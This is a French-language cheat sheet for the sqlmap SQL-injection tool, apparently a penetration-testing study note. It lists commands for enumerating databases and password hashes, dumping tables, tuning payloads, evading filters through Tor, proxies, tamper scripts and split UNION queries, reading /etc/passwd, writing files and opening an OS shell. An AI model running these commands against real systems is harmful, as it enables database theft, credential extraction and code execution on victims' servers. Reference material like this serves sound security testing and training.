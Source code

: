 Pour extraire requête d'un site web: 
1. F12 > Réseau > clique droit sur requête > Copie cURL
2. remplacer curl par sqlmap
3. -p pour marquer un param ou * après un param ex: “id=1*”
4. Copier l'en-tête dans un fichier et -r entete.txt pour l'exécuter

* --host, --referer, and -A/--user-agent --random-agent 
* --mobile (en-tête mobile)
* --method PUT

Utiliser * dans l'entete pour la tester

# Enumération
| commande |
| --- |
|--banner|
|--hostname|
|--current-db|
|--current-user|
|--passwords|

# Extraction
| commande | description |
| --- | --- |
| --tables ||
|--dump<br>	-T [table]<br> -D [BD]<br> -C [colonne]<br>	```--where="name LIKE 'kimberly%'"``` ||
| --dump-all --exclude -sysdbs ||
| --schema ||
| --search -T user 		|Cherche tables contenant le mot user|
| --passwords			|mot de passes dans BD systèmes |

# Tuning
| commande | description |
| --- | --- |
| ```--prefix="%'))" --suffix="-- -"``` | |
| ```--level [1-5]``` |	étend les vecteurs et frontières|
| ```--risk [1-3]``` |étend les vecteurs. Peut avoir à augmenter le risk dans le cas de OR, page d'authentification. Requête vulnérable modifie peut-être la BD?|
| ```--code=200``` |	code pour détecter VRAI|
| ```--title``` |			utilise la balise HTML \<title> pour différencier|
| ```--string=success``` |	chaîne se retrouvant dans la réponse VRAI|
| ```--text-only``` |	regarde seulement le texte visible|
| ```--technique=BEU``` |	limite les techniques|
| ```--union-from=users``` |	appendice pour union|
| ```--union-cols=5``` ||

# Debug
| commande | description |
| --- | --- |
| ```--parse-errors``` | 	pour afficher les erreurs |
| ```-t fichier.txt``` | 		sauvegarder le traffic |
| ```-v [1-6]``` |			verbosité (3 voit payload) |
| ```--proxy``` |			Peut renvoyer le traffic vers burp pour analyse |

# Passer protections
| commande | description |
| --- | --- |
| ```--csrf-token=<nom_jeton>``` ||
| ```--randomize=<nom_param>``` | |
| ```--eval="import hashlib; h=hashlib.md5(id).hexdigest()"``` | Quand calcul côté client attendu ex: h=MD5(id)	|
| ```--proxy="socks4://177.39.187.70:33283"``` ||
| ```--proxy-file``` | |
| ```--tor	``` |		ressort par un noeud TOR doit avoir un proxy SOCKS4 sur 9050 our 9150|
| ```--check-tor``` |	vérifie connexion TOR en se connectant sur https://check.torproject.org/|
| ```--random-agent``` ||
| ```--tamper=script,script,...``` ||
| ```--list-tampers``` ||
| ```--chunked	``` |	passe les requêtes proscrites en plusieurs paquets. Peut aussi séparer les requêtes sur plusieurs params reconstruits par la cible si supporté ```?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...```)
	
# Exécution
| commande | description |
| --- | --- |
| ```--file-read "/etc/passwd"``` ||
| ```--file-write <fichier> --file-dest <destination>``` ||
| ```--os-shell	``` |	Exécute du code. La version 64bit ou 32bit est importante!|
